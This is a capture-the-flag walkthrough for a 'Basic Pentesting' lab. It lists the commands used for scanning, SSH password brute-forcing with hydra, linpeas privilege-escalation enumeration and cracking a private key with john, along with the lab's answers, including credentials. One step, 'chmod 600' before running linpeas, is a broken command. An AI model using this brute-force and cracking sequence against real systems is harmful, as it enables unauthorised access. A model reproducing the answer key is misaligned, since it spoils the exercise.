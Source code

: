# Basic Pentesting

## [Task 1] Web App Testing and Privilege Escalation
1. Deploy the machine and connect to our network
2. Find the services exposed by the machine
    - `nmap -sV BOX_IP`
    - 22, 80, 139, 445, 8009, 8080
3. What is the name of the hidden directory on the web server (enter name without /)?
    - `dirbuster`
    - development
4. User brute-forcing to find the username & password
    - `enum4linux -a BOX_IP`
    - `hydra -l jan -P rockyou.txt ssh://BOX_IP`
5. What is the username?
    - jan
6. What is the password?
    - armando
7. What service do you use to access the server (answer in abbreviation in all caps)?
    - ssh
8. Enumerate the machine to find any vectors for privilege escalation
    - `scp linpeas.sh jan@BOX_IP:/dev/shm`
    - `ssh jan@BOX_IP`
    - `chmod 600 linpeas.sh`
    - `./linpeas.sh`
9. What is the name of the other user you found (all lower case)?
    - kay
10. If you have found another user, what can you do with this information?
    - inspect directories and files related to user
11. What is the final password you obtain?
    - `ssh2john.py id_rsa > id_rsa.txt`
    - `john id_rsa.txt --wordlist=rockyou.txt`
    - `ssh -i id_rsa kay@BOX_IP`
    - `cat pass.bak`
    - heresareallystrongpasswordthatfollowsthepasswordpolicy$$
